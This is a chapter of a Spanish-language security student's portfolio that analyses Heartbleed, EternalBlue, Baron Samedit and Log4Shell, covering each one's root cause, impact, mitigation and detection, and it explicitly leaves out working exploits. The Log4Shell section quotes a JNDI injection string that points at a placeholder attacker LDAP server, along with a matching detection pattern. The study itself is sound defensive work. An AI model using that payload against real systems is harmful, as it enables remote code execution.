

# 5. Casos reales (CVE) investigados

La tarea pide *"vulnerabilidades reales que hayas investigado"*. Como analista que empieza su
portfolio, mi forma honesta y profesional de hacerlo es **estudiar CVEs públicas a partir de
fuentes primarias** (NVD, avisos del fabricante, write-ups publicados) aplicando el **mismo
patrón de análisis** del capítulo 1, y extraer de cada una el *patrón transferible*.

> **Alcance ético:** aquí analizo **causa raíz, impacto y mitigación** con información pública.
> No incluyo exploits funcionales ni los ejecuto contra sistemas de terceros. El valor está en
> el análisis, no en el arma.

He elegido cuatro casos que cubren **cuatro familias distintas** de vulnerabilidad, para
demostrar que la metodología se adapta a cada tipo:

| CVE | Nombre | Familia | CWE | Impacto |
|-----|--------|---------|-----|---------|
| CVE-2014-0160 | Heartbleed | Out-of-bounds **read** | CWE-125 | Fuga de memoria (claves, datos) |
| CVE-2017-0144 | EternalBlue | Buffer overflow (kernel) | CWE-787 | RCE remoto (SMBv1) |
| CVE-2021-3156 | Baron Samedit | Heap buffer overflow | CWE-122/193 | Escalada local a root |
| CVE-2021-44228 | Log4Shell | Inyección (JNDI/EL) | CWE-917/502 | RCE remoto sin autenticar |

---

## 5.1. CVE-2014-0160 — Heartbleed (OpenSSL)

- **Clasificación:** lectura fuera de límites (*out-of-bounds read*), no corrupción.
- **Contexto:** extensión *Heartbeat* (RFC 6520) de OpenSSL/TLS. Afectó a una porción enorme
  de Internet.
- **Causa raíz (el patrón):** el servidor confía en un campo de **longitud** enviado por el
  cliente **sin comprobar** que coincide con los datos realmente recibidos. El cliente dice
  "te mando 1 byte pero devuélveme 65.535", y el servidor responde copiando desde su memoria
  hasta 64 KB **más allá** del búfer legítimo.
- **Por qué fue explotable:** faltaba una validación `payload_length <= tamaño_real`. Un
  *bounds check* ausente.
- **Impacto:** fuga de memoria del proceso → claves privadas, cookies de sesión, credenciales.
- **Mitigación / lección:** parche que valida la longitud; a nivel defensivo, rotación de
  claves y certificados. **Patrón que me llevo:** *toda longitud que venga del exterior es
  hostil hasta que se valida contra el tamaño real.*
- **Detección (visión SOC):** IDS/IPS con firmas de *heartbeat* malformado; volumen anómalo de
  respuestas Heartbeat.
- 🔗 [NVD CVE-2014-0160](https://nvd.nist.gov/vuln/detail/CVE-2014-0160) · [heartbleed.com](https://heartbleed.com/)

---

## 5.2. CVE-2017-0144 — EternalBlue (SMBv1)

- **Clasificación:** desbordamiento de búfer en kernel (`srv.sys`), explotación remota.
- **Contexto:** protocolo **SMBv1** de Windows. Base de **WannaCry** y **NotPetya** (2017). El
  propio manual cita SMBv1/WannaCry como ejemplo de por qué hay que deshabilitar protocolos
  heredados.
- **Causa raíz (el patrón):** error en la conversión entre estructuras de listas de atributos
  (*FEA list*): un cálculo de tamaño incorrecto al convertir de formato OS/2 a NT provoca que
  se copie **más** de lo reservado → corrupción de memoria de kernel controlable.
- **Por qué fue explotable:** combinación de un *math bug* (cálculo de tamaño) con un protocolo
  expuesto en red y ejecutado en el máximo nivel de privilegio (kernel).
- **Impacto:** ejecución remota de código en **SYSTEM**, propagación tipo gusano.
- **Mitigación / lección:** MS17-010; **deshabilitar SMBv1**, segmentar y filtrar el puerto 445.
  **Patrón que me llevo:** *los errores aritméticos de tamaño son tan peligrosos como un
  `strcpy`, y en kernel el impacto se multiplica.*
- **Detección (visión SOC):** firmas de red para el patrón de EternalBlue, tráfico SMBv1 en la
  red interna, conexiones 445 anómalas este-oeste.
- 🔗 [NVD CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144) · [MS17-010](https://learn.microsoft.com/security-updates/securitybulletins/2017/ms17-010)

---

## 5.3. CVE-2021-3156 — Baron Samedit (sudo)

- **Clasificación:** desbordamiento de *heap* (*heap-based buffer overflow*), escalada local.
- **Contexto:** `sudo`, presente en prácticamente todo Unix/Linux. Descubierta por Qualys.
- **Causa raíz (el patrón):** al procesar la línea de comandos en *shell mode*, un argumento
  acabado en **barra invertida** (`\`) provoca un fallo en el *unescaping*: se lee/escribe
  fuera de los límites del búfer en el heap (off-by-one que degenera en overflow controlable).
- **Por qué fue explotable:** la combinación de un parsing frágil con control del atacante
  sobre el contenido permitía corromular estructuras del heap y, con trabajo, escalar a root.
- **Impacto:** cualquier usuario local sin privilegios → **root**.
- **Mitigación / lección:** actualizar sudo; **principio de mínimo privilegio** y revisión de
  parsers. **Patrón que me llevo:** *el manejo de caracteres de escape y los off-by-one son
  una mina clásica; el heap es tan explotable como la pila, con otras técnicas.*
- **Detección (visión SOC):** auditoría de ejecución de `sudo` con argumentos anómalos;
  EDR vigilando *spawns* de root inesperados.
- 🔗 [NVD CVE-2021-3156](https://nvd.nist.gov/vuln/detail/CVE-2021-3156) · [Qualys advisory](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt)

---

## 5.4. CVE-2021-44228 — Log4Shell (Apache Log4j 2)

- **Clasificación:** inyección (JNDI / *expression language*) que deriva en RCE. No es un fallo
  de memoria: demuestra que la metodología no va solo de *binary exploitation*.
- **Contexto:** librería de logging ubicua en el ecosistema Java. Impacto global en diciembre
  de 2021.
- **Causa raíz (el patrón):** Log4j **interpreta** secuencias `${...}` dentro de los mensajes
  que registra. Si se loguea una cadena controlada por el atacante como
  `${jndi:ldap://servidor-atacante/a}`, la librería hace una **consulta JNDI** a ese servidor y
  llega a **cargar y ejecutar** una clase remota.
- **Por qué fue explotable:** *entrada no confiable* (una cabecera HTTP, un nombre de usuario,
  cualquier dato logueado) tratada como **código/plantilla** → confusión datos↔código.
- **Impacto:** RCE remoto, sin autenticación, trivial de disparar.
- **Mitigación / lección:** actualizar Log4j, desactivar *lookups* JNDI, filtrar egress.
  **Patrón que me llevo:** *nunca interpretes datos del usuario como instrucciones; la frontera
  datos/código es sagrada.* Es el mismo principio que detrás de las inyecciones SQL o de comandos.
- **Detección (visión SOC):** patrones `${jndi:` en logs y peticiones; conexiones LDAP/RMI
  salientes hacia destinos desconocidos.
- 🔗 [NVD CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

---

## 5.5. El binario con el que he practicado

Además de estos CVEs públicos, **el binario del capítulo 4** (`vuln_linux`) es el caso con el
que he practicado directamente las técnicas de explotación: fuzzing, cálculo de offset, control
de EIP y redirección de flujo (*ret2win*). Es un binario escrito y compilado por mí, con su
laboratorio reproducible en [`../labs/`](../labs/). A medida que avance en el máster, mi plan
es sustituir/ampliar esta sección con retos de **HTB**, **TryHackMe**, **PortSwigger Web
Security Academy** y binarios de **pwnable.kr / Exploit-DB**, documentando cada uno con el
mismo patrón de análisis.

---

## 5.6. Lo que tienen en común los cuatro casos

Cuatro vulnerabilidades muy distintas (lectura OOB, overflow de kernel, overflow de heap,
inyección) comparten la **misma raíz conceptual**: una *entrada controlada* que cruza una
*validación ausente o insuficiente*. Interiorizar ese patrón es, para mí, más valioso que
memorizar cualquier exploit concreto: es lo que me permitirá reconocer el **próximo** fallo,
incluido uno desconocido. De ahí paso al capítulo de 0days.

➡️ Continúa en [6. Mi aproximación a los 0days](06-aproximacion-0days.md)
